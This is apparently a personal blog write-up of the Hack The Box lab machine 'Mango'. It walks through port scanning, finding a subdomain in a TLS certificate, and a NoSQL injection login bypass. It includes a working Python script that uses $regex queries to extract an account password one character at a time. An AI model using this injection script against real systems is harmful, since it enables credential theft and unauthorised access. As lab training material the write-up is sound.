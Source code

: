```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: false
tags: ["pentesting","Hack The Box"]
reads: 2
description: "Mango was the first Hack The Box I got user-level access to! Here's how I used nmap, tls certificates, and  NoSql injection to get access to the box."
---
```

Mango was the first Hack The Box box I got user-level access to!  To get in, I started off with a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan, I knew there were two http/https servers and ssh running. I  looked at what was hosted on these web servers.  On port 80 I didn't find anything. But on port 443 I found a website that looked like a clone of the google search page. I ran gobuster against the server on port 80 but did not find any webpages.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up Mango Solutions in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed data to see if I could exploit the web service but there were no interesting error messages. I then took a look at the TLS certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb, I found a login page.
![login screen](/img/mango/login.jpg)
I then tried different types of injections on the login page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts mango and admin. I guessed that there was an account with the username admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mongo db. By using a regular expression to match on the first characters of the password, we can enumerate the password. The http status code 302 tells us that our prefix matches the password. Using the found admin credentials I was unable to ssh onto the box. I was able to get onto the box using the mango credentials. However, I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```
